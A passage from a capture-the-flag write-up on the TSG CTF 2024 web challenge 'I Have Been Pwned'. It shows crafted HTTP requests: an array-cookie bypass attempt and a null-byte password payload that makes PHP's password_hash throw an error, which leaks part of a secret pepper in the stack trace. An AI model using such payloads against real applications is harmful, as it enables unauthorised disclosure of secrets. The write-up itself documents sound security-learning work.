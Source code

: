 ```shell
┌[siunam♥Mercury]-(~/ctf/TSG-CTF-2024/Web/I-Have-Been-Pwned)-[2024.12.16|12:12:25(HKT)]
└> php -S 0.0.0.0:8000
[...]
```

After some testing, it is not possible to pass the if statement and truncate the rest of the input, such as the following request:

```http
GET /test.php HTTP/1.1
Host: localhost:8000
Cookie: auth[]=admin; auth[]=foo


```

Response:

```php
[*] Is admin? 0
array(2) {
  [0]=>
  string(5) "admin"
  [1]=>
  string(3) "foo"
}
[*] Password length: 21
```

So nope. We need to somehow know `$pepper1` in order to generate the admin password hash.

Another approach is also very interesting.

Since this web application **did not disable PHP errors** via function [`error_reporting`](https://www.php.net/manual/en/function.error-reporting.php), maybe we can leak those peppers?

For example, in `i_have_been_pwned/scripts/index.php`'s `password_hash`, **what if the input has a null byte?**

```http
POST /index.php HTTP/1.1
Host: 34.84.32.212:8080
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

auth=guest&password=%00
```

> Note: Null byte in URL encoding is `%00`.

Response:

```html
<br />
<b>Fatal error</b>:  Uncaught ValueError: Bcrypt password must not contain null character in /var/www/html/index.php:21
Stack trace:
#0 /var/www/html/index.php(21): password_hash('PmVG7xe9ECBSgLU...', '2y')
#1 {main}
  thrown in <b>/var/www/html/index.php</b> on line <b>21</b><br />
```
